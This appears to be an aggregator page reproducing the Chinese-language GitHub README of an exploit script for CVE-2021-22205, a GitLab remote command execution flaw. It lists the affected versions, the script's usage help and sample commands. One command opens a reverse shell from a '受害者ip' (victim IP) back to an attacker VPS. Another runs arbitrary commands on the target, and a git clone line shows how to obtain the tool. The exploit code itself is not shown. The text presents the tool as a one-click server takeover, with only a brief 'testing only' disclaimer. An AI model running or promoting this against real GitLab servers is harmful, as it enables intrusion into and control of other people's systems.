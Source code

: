 # CVE-2021-22205

CVE-2021-22205 检测脚本,支持getshell和命令执行

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/keven1z](https://github.com/keven1z) |
| Url      | [https://github.com/keven1z/CVE-2021-22205](https://github.com/keven1z/CVE-2021-22205)                                               |
| Stars    | 12                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-22205* gitlab

</details>

## Readme

# CVE-2021-22205
由于Gitlab未正确验证传递到文件解析器的图像文件从而导致命令执行。攻击者可构造恶意请求利用该漏洞在目标系统执行任意指令，最终导致Gitlab服务器被控制。由于网上大多缺少反弹shell，故修改了网上写的脚本，增加了一键getshell功能

## 影响版本
* 11.9 <=  GitLab（CE/EE）< 13.8.8
* 13.9 <=  GitLab（CE/EE）< 13.9.6
* 13.10 <= GitLab（CE/EE）< 13.10.3

## 使用说明
```shell
	  ______     _______     ____   ___ ____  _      ____  ____  ____   ___  ____  
	 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \|___ \|___ \ / _ \| ___| 
	| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | __) | __) | | | |___ \ 
	| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/ / __/ / __/| |_| |___) |
 	\____ |  \_/  |_____|   |_____|\___/_____|_|    |_____|_____|_____|\___/|____/ 
    	
usage: CVE-2021-22205.py [-h] [-t TARGET] [-c COMMAND] [--shell] [-i IP]
                         [-p PORT]

GitLab < 13.10.3 RCE

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        目标URL
  -c COMMAND, --command COMMAND
                        执行命令
  --shell               是否反弹shell
  -i IP, --ip IP        反弹shell ip
  -p PORT, --port PORT  反弹shell端口
```
## 使用
```shell
python3 CVE-2021-22205.py -t [受害者ip] --shell -i [vps ip] -p [vps port] //反弹shell
python3 CVE-2021-22205.py -t [受害者ip] -c [command] //执行命令
```
## 声明
此脚本仅可用于测试使用，勿作他用



## Get the content

```
git clone https://github.com/keven1z/CVE-2021-22205
cd CVE-2021-22205
```

{% embed url="https://github.com/keven1z/CVE-2021-22205" %}

<figure><img src="https://avatars.githubusercontent.com/u/43847458?v=4" alt=""><figcaption><p>keven1z</p></figcaption></figure>
